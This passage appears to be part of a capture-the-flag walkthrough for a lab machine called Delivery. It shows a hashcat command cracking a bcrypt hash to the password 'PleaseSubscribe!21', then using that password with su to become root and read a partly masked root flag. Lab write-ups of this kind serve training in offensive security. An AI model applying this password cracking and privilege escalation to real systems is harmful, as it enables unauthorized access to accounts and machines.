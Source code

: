 
    root@kali# hashcat -m 3200 hash password --user -r /usr/share/hashcat/rules/best64.rule 
    ...[snip]...
    $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21



It cracks pretty quickly.

### su

That password works for the root account on Delivery:



    maildeliverer@Delivery:/$ su -
    Password: 
    root@Delivery:~#



I can grab `root.txt`:



    root@Delivery:~# cat root.txt
    b3bc48d7************************







